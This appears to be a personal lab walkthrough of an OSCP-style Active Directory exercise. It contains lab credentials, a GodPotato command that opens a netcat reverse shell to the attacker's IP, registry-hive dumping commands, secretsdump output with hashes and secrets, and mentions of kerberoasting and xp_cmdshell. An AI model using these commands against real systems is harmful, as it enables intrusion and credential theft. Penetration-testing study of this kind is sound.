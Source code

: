 # Active Directory

```
MS01 -> 192.168.243.147
MS02 -> 10.10.203.148
DC01 -> 10.10.203.146

credentials: Eric.Wallows / EricLikesRunning800
```

I start by connecting to the session via evil winrm and look at the double NIC:

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I quickly see me have&#x20;

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i upload netcat and godpotato to the machine and launch the command to get a reverse shell:

```
#set up listener
nc -nlvp 1234
#in session:
./GodPotato-NET4.exe -cmd "nc.exe -e cmd.exe 192.168.45.249 1234"
```

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

So we have admin access so i go and look at the command to exfiltrate the hives:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#exfiltration" %}

```
reg save HKLM\SAM "C:\Users\eric.wallows\Desktop\sam.save"
reg save HKLM\SECURITY "C:\Users\eric.wallows\Desktop\security.save"
reg save HKLM\SYSTEM "C:\Users\eric.wallows\Desktop\system.save"
```

Then i download everything to my attackbox:

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Then i dump everything with this command:

```
impacket-secretsdump -sam 'sam.save' -security 'security.save' -system 'system.save' LOCAL
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xa5403534b0978445a2df2d30d19a7980
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::
[*] Dumping cached domain logon information (domain/username:hash)
OSCP.EXAM/Administrator:$DCC2$10240#Administrator#a3a38f45ff2adaf28e945577e9e2b57a: (2022-11-10 10:06:42)
OSCP.EXAM/web_svc:$DCC2$10240#web_svc#130379745455ae62bbf41faa0572f6d3: (2025-02-25 18:34:19)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:41bbb6f29bca4192a9e81d50ca80d5795b43dc1855d3baa7940c42a26a84905861d257a62d85bc647985485ae08c44d749e7988e842a82c8ba51181adce6c93617d2413ae09d644ba53e83571a3262132fd0060cc9e0630b970c6b564b6f542a0505aa0b5f7c79837fd30cb55d718463a7ec1ce58b212127458214ad5e8b68f9b09698f3eec191ad4f19ad495f038e29244056cc9c43b48e52ccda146edd91a52176cfb06297987e5b9994e139d3f18bd5f5e9662036a23b81e09a5e253cbc727ae73701066c0cd86b3de2a6493cd5e1fcb5d44407b987bb2c68b85a4eb8de3fa08a295367007fa40fbaf4e305055135
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e60532ba861fa96b10dc19c10afbfb84
[*] DefaultPassword 
(Unknown User):7k8XHk3dMtmpnC7
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x14cc9accbb06d4af8f07295749933b06cf0d6dfd
dpapi_userkey:0x4c31eb802e3529d34f198a0473a6745cf5948527
[*] NL$KM 
 0000   F1 9F 8D 0A 3D 6B 2D 13  69 96 2E 4C 32 4D C3 66   ....=k-.i..L2M.f
 0010   D5 36 97 AB 1F 0B F2 38  11 3E DF 05 AE DF 31 70   .6.....8.>....1p
 0020   C0 E3 97 A0 08 31 A9 2A  E3 88 48 DD 2C 88 86 56   .....1.*..H.,..V
 0030   83 C9 79 90 03 D5 9D 28  C1 BE 33 D6 0E 7B B7 9B   ..y....(..3..{..
NL$KM:f19f8d0a3d6b2d1369962e4c324dc366d53697ab1f0bf238113edf05aedf3170c0e397a00831a92ae38848dd2c88865683c9799003d59d28c1be33d60e7bb79b
[*] Cleaning up...
```

Then i kerberoasted the DC with the creds of eric and had 2 hashes:

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

O was able to crack the 2 hashes and got password&#x20;

```
Diamond1
Dolphin1
```

<figure><img src="../../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

With xp cmdshell:

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

